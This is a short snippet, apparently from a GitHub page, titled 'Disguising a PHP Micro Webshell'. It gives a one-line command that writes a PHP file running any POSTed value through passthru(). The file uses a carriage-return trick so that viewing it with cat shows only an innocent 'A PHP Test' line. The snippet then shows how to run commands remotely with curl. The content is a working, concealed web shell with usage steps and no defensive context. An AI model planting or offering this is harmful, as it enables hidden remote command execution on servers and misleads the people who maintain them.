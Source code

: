 Disguising a PHP Micro Webshell 

`echo -e "<?php passthru(\$_POST[1])?>;\r<?php echo 'A PHP Test ';" > test.php` 

url : http://t.co/YFm6QlpK0k

vist browser  page show `A PHP Test`

then in console use `cat xxx.php`
it show `<?php echo 'A PHP Test ';" ?>`

then in console run
`curl -d 1=id http://www.xxx.xx/xx.php`

it like in console show command `id`  
